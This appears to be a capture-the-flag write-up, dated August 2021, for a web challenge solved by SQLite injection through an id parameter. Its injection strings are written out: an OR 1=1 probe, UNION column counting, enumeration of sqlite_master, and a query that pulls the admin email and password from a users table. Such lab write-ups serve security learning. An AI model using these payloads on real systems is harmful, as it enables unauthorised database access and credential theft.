 
## 25 AUG 2021 |  sqlite integer  injection 


when first viist the site and press at any image it seems we have parameter id 

![image](https://user-images.githubusercontent.com/67979878/130710864-8a938c41-984f-47eb-a6a4-39d6a1d98976.png)


try some IDOR stuff but failed , however when try ' OR 1=1 --  it throws out an error 

![image](https://user-images.githubusercontent.com/67979878/130710980-f335618a-9e6e-4ee1-9fa9-73e0861abd7b.png)

this error indicates sqlite database so let's play around :) 


### [+] Great reference :

https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md



Enumeration :
---------------

first we need to know how many columns to add to the UNION statement let's test :
````
id=3 UNION SELECT 1 -- 
id=3 UNION SELECT 1 ,2-- 
id=3 UNION SELECT 1 ,2,3--
id=3 UNION SELECT 1 ,2,3,4--
id=3 UNION SELECT 1 ,2,3,4,5-- 
````

it throws error at all execpt the last one :
![image](https://user-images.githubusercontent.com/67979878/130711281-e9394b7e-0744-4bcb-869f-8898f03da187.png)

time to get table names :) 

`id=3 UNION SELECT 1 ,tbl_name ,3,4,5 FROM sqlite_master-- `

![image](https://user-images.githubusercontent.com/67979878/130711766-19608348-d673-4d86-8538-8d9f4f75ab50.png)


let's check : `nxf8_users`

`id=3 UNION SELECT 1 ,sql,3,4,5 FROM sqlite_master WHERE name='nxf8_users'--`


![image](https://user-images.githubusercontent.com/67979878/130711910-3337ccb3-e5a6-4ccd-8186-6ae4f5c02326.png)

we need to get email of admin so let's use :

`id=3  UNION SELECT 1 ,email,3,password,5 FROM nxf8_users WHERE role='admin'-- `

![image](https://user-images.githubusercontent.com/67979878/130712086-9b405882-a69c-4dff-b0b2-cee17be6ba8b.png)

email is the flag 

# done 
